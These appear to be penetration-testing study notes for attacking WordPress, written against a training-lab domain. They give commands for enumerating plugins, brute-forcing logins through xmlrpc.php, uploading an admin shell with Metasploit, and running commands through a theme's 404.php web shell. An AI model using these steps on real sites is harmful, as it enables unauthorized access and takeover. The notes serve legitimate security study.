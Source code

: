 - Wp-login.php has username enumeration as a feature.
- Viewing the page for usernames
- Call to the API ≤ 4.7.1 WP ([http://blog.inlanefreight.com/wp-json/wp/v2/users](http://blog.inlanefreight.com/wp-json/wp/v2/users))

- [ ] Check robots.txt file may reveal /wp-admin page
- [ ] Identify if xmlrpc.php is enabled
- [ ] Automated WordPress Scanning
- [ ] Username Enumeration
- [ ] Login Brute-force
- [ ] Check wp-config.php file

(cURL) Plugin enumeration
```bash
curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2
```
(WPScan) Plugin scanning -> RCE
```bash
sudo wpscan --url http://blog.external.local --enumerate ap --api-token <API_TOKEN> -t 4 --plugins-detection mixed
```
(WPScan) Account Brute-forcing 
- wp-login
- xmlrpc.php: brute force the API (preferred because it’s faster)
```bash
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```
(cURL) Account Login (xmlrpc.php)
```bash
 curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
(cURL) xmlrpc.php method listing
```bash
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
(Admin) Appearance -> Theme editor -> RCE (PHP payload)
- Metasploit module
```bash
exploit/unix/webapp/wp_admin_shell_upload
```
RCE theme 404
```bash
/wp-content/themes/twentyseventeen/404.php?cmd=id
```